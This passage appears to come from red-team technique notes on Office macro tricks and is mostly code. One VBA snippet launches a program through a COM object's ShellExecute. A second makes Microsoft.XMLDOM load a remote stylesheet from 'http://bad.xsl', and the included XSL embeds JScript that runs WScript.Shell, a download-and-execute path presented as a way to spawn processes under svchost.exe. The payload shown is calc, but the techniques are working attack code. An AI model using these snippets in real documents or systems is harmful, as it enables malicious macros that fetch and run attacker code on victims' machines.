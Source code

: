 {% code-tabs %}
{% code-tabs-item title="macro.vba" %}
```csharp
Set obj = GetObject("new:C08AFD90-F2A1-11D1-8455-00A0C91F3880")
obj.Document.Application.ShellExecute "calc",Null,"C:\\Windows\\System32",Null,0
```
{% endcode-tabs-item %}
{% endcode-tabs %}

## Spawning via svchost.exe using XMLDOM

{% code-tabs %}
{% code-tabs-item title="xmldom.vba" %}
```csharp
Set xml = CreateObject("Microsoft.XMLDOM")
xml.async = False
Set xsl = xml
xsl.load("file://|http://bad.xsl")
xml.transformNode xsl
```
{% endcode-tabs-item %}

{% code-tabs-item title="bad.xsl" %}
```markup
<?xml version='1.0'?>
<stylesheet
xmlns="http://www.w3.org/1999/XSL/Transform" xmlns:ms="urn:schemas-microsoft-com:xslt"
xmlns:user="placeholder"
version="1.0">
<output method="text"/>
	<ms:script implements-prefix="user" language="JScript">
	<![CDATA[
	var r = new ActiveXObject("WScript.Shell").Run("calc");
	]]> </ms:script>
</stylesheet>
```
{% endcode-tabs-item %}
{% endcode-tabs %}

![](../../.gitbook/assets/screenshot-from-2019-04-10-23-04-07.png)

